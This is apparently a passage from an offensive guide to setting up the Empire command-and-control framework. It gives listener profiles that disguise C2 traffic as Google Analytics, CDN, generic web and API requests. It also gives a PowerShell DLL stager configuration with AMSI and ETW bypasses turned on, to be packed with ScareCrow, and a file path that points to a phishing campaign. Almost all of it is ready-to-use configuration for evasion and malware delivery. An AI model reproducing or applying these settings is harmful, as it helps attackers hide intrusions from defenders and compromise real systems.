 ### Profile 2: Google Analytics Mimicry  
```
DefaultProfile: /ga/collect,/analytics.js,/gtag/js|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
```

### Profile 3: CDN/jQuery Traffic
```
DefaultProfile: /jquery-3.7.1.min.js,/bootstrap.min.css,/fontawesome/all.min.js|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
```

### Profile 4: Generic Web Traffic
```
DefaultProfile: /admin/get.php,/news.asp,/search?q=update,/login/process.jsp|Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
```

### Profile 5: API Endpoints
```
DefaultProfile: /api/v1/users,/api/v2/status,/rest/health,/graphql|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
```

---

## 🚀 STAGER CONFIGURATIONS

### 1. PowerShell DLL Stager (For ScareCrow)
```
Stager Type: multi/launcher
Listener: primary_http
Language: powershell
Output: dll

Options:
- Listener: primary_http
- Language: powershell
- StagerRetries: 3
- Proxy: default
- ProxyCreds: default
- UserAgent: default (from listener)
- SafeChecks: True
- Obfuscate: False (we'll obfuscate with ScareCrow)
- ObfuscateCommand: (leave empty)
- AMSIBypass: True
- AMSIBypass2: False
- ETWBypass: True

Output File: /home/kali/Main C2 Framework/advanced-steganography-phishing/stagers/empire_ps_stager.dll
```
